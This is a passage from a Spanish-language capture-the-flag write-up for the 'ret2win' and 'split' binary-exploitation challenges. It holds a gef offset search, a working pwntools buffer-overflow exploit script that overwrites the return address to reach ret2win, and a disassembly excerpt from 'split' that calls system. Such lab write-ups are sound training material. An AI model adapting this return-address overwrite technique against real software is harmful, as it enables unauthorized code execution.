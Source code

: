 ```
gef➤  pattern search 0x6161616161616165
[+] Searching '0x6161616161616165'
[+] Found at offset 32 (little-endian search) likely
```

El tamaño del offset es de 32 bytes, sabiendo esto ya puedo escribir el exploit.

### Escribir el exploit

El payload está formado por:
1. Offset de 32 bytes para llenar la pila
2. 8 bytes para sobreescribir el valor que se pusheará a RBP
3. La dirección de ret2win para que sea pusheada a RIP


**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

elf = "./ret2win"
p = process(elf)
ELF(elf)

offset = b'A'*32
RBP = b'B'*8
ret2win = p64(0x00400756)

p.sendline(offset + RBP + ret2win)

# PRINT FLAG
print()
print(p.recvuntil("you!\n").decode("utf-8"))
print(p.recvuntil('}').decode("utf-8"))

p.close()
exit(0)
```

---
# split

> Combine elements from the ret2win challenge that have been split apart to beat this challenge.
---

### Analizar el binario

Igual que en el anterior reto, listo las funciones y encuentro una sospechosa llamada "usefulFunction", este es el fragmento más interesante:

```
0x00400746      mov edi, str.bin_ls      ; 0x40084a ; "/bin/ls"
0x0040074b      call sym.imp.system      ; int system(const char *string)

```

